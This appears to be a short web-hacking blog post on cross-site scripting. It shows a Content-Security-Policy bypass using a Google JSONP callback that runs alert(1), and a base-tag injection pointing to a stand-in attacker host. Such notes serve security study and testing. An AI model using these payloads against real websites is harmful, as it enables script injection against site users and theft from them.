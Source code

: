 ```yaml
---
title: XSS(Cross Site Scripting)
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


## Google JSON API XSS

If the target server is accepting addresses from Google, use the

~~~
Content-Security-Policy: default-src 'self'; script-src *.google.com
~~~

~~~ html
<html>
    <head>...</head>
    <body>
        <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    </body>
</html>
~~~


## base tag url XSS

~~~ html
<base href="https://attacker.io/">
~~~
